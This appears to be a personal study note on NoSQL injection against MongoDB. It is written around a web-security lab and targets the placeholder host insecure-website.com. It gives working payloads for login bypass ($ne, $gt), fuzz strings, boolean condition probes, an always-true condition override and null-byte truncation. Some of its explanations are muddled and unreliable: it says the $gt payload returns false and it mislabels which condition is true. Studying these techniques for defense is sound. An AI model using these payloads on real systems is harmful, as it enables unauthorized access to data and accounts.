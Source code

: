 SQL injection si when you able to execute database commands from a backend server.
![[Pasted image 20241027171915.png]]
This avaible you to:
- Bypass authentication or protection mechanisms.
- Extract or edit data.
- Cause a denial of service.
- Execute code on the server.
For more information check [[Injection]] in APIS
There are two different types of NO-SQLI:
##### Syntax Injection
The attacker aimed to break the syntax of the Mongo query, imagine you got the following request with this syntax:
```js
db.users.find({ "username": "user1", "password": "pass" })
```
So you could craft a payload which always will return true:
```js
db.users.find({ "username": "user1", "password": { "$ne": null } })
```
##### Operator injection 
This occurs when you can use NoSQL query operators to manipulate queries, for example:
```js
db.users.find({ "username": "user1", "password": "pass123" })
```
And then inject:
```js
db.users.find({ "username": "user1", "password": { "$gt": "" } })
```
As the pasword will be always greater than an empty string whis will return false

------
### DEtecting they're vulnerable 
So to detect this we need to cause an error on the datas base with the provided strings:
```
'"`
{ ;$Foo} 
$Foo \xYZ
```
So imagine you got a URL with the following query:
```url
https://insecure-website.com/product/lookup?category=fizzy
````
use the following url:
```url
https://insecure-website.com/product/lookup?category='%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00
```
If this causes a change from the original response, this may indicate that user input isn't filtered or sanitized correctly.
###### Determining which character is proseced
To know what character is causing the issue we can check one by one, as submit `'`, so the mongo db query would be like this:
```
this.category == '''
```
And if this response differ from the original that may indicate that you broke the query syntax, you could confirm this by sending a correct syntax:
```
this.category == '\''
```
###### Confirming conditional behavior
So to confirm this we shpuld to send 2 conditions, one true, `' && 0 && 'x`, and other false, `' && 1 && 'x`:
```url
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+0+%26%26+'x
```
and the true one:
```url
https://insecure-website.com/product/lookup?category=fizzy'+%26%26+1+%26%26+'x
```
###### Overriding existing conditions
Once you identified this you can attempt to override existing conditions to exploit the vulnerability, for this you can use a JS condition that alwas will be true `'||'1'=='1`
```url
https://insecure-website.com/product/lookup?category=fizzy%27%7c%7c%27%31%27%3d%3d%27%31
```
and this result in the following mongodb query:
```js
this.category == 'fizzy'||'1'=='1'
```
Following this we'll solved the lab: [[Detecting_NoSQLI]]

### Null byte
There's a conflicting character which cause to ignore all the character after it. So this means that any additional conditions on the MongoDB query are ignored.

You could also add a null character after the category value. MongoDB may ignore all characters after a null character. This means that any additional conditions on the MongoDB query are ignored. For example, the query may have an additional `this.released` restriction:

`this.category == 'fizzy' && this.released == 1`

The restriction `this.released == 1` is used to only show products that are released. For unreleased products, presumably `this.released == 0`.

In this case, an attacker could construct an attack as follows:

`https://insecure-website.com/product/lookup?category=fizzy'%00`

This results in the following NoSQL query:

`this.category == 'fizzy'\u0000' && this.released == 1`

If MongoDB ignores all characters after the null character, this removes the requirement for the released field to be set to 1. As a result, all products in the `fizzy` category are displayed, including unreleased products.